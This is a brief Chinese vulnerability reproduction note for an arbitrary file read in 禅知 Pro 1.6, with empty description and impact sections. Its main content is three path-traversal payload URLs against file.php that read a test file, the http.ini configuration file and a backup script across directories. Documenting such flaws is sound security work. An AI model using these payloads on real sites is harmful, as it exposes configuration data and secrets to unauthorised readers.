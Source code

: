 ```yaml
---
title: "禅知Pro 1.6 前台任意文件读取"
id: zhfly3359
---
```


# 禅知 Pro 1.6 前台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录C:\xampp\chanzhi\www新建一个测试文件test.php

![image](../img/8e32133e24404b6dde0031f0749526be.png)

执行payload查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```

![image](../img/632b35512d05b86d4f7ab6311b0c8a16.png)

执行payload来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```

![image](../img/cd3e3cc4e3e49c97362cf023bb50eb0b.png)

跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```